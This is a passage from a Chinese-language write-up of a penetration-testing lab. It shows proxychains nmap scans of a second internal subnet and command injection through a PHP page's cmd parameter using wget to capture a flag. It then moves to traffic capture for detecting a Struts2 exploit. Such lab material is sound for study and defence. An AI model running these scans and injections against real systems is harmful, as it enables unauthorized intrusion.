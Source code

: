 ```
于是升级并进入 session 5，并确认第二层靶标的网段是 `192.169.85.0/24`

![升级并进入session5](img/升级并进入session5.png)

![第二层靶标网段](img/第二层靶标网段.png)

![第二层靶标网段2](img/第二层靶标网段2.png)

确认靶标的网段后回到 attacker 扫描第二层靶标

```
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.3
```

结果显示端口被过滤，于是执行以下命令扫描该网段的其他 ip

```
proxychains sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.2-254 | grep open
```

![扫描第二层入口](img/扫描第二层入口.png)

进入第一层靶机升级后的 shell 中，尝试使用 wget 来枚举并找到可能开放的端口，在尝试 192.169.85.2 时成功收到了 response

```
wget http://192.169.85.2/
```

![wget获取成功](img/wget获取成功.png)

于是再次wget该网页并保存和显示获取到的网页内容

```
wget http://192.169.85.2 -O /tmp/result && cat /tmp/result
```

![wget并打印获取内容](img/wget并打印获取内容.png)

可以看到打印出来的获取内容是 `index.php?cmd=ls /tmp` ，所以该页面是 php 文件，可以通过 cmd 来传参，于是进行以下尝试

```
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result
```

命令成功执行并得到了flag如下

![攻破第二层靶标](img/攻破第二层靶标.png)

![进度100%](img/进度100%.png)

## DMZ 入口靶标漏洞利用检测
* 由于已知漏洞类型，在进行攻击实验前，为方便分析和确认 Struts2 代码执行漏洞是否存在，以及是否可以成功利用该漏洞进行远程代码执行分析，可以对 docker 对应的容器抓取流量包。
    ```
    docker ps #正在启动的容器列表
    container_name="XXXXXX" #自定义变量赋值需要抓取流量的容器的ID或名称
    docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump #运行一个临时 kaazing/tcpdump 容器。让该容器监听 ${container_name} 容器的网络流量。将抓包数据存放在 /tcpdump 目录，并映射到宿主机的 ${PWD}/tcpdump/${container_name}。容器完成任务后自动删除（--rm）
    ```

    ![docker容器一览](./img/docker容器一览.png)

1. **过滤 HTTP 包：** Struts2 代码执行漏洞通常利用 HTTP 请求触发,同时过滤出 HTTP 包可以排除无关的数据流量。
   * 攻击者 ip：192.168.56.104
   * HTTP 头部：POST / HTTP/1.1 → 通常用于提交数据，符合 Struts2 攻击特征
```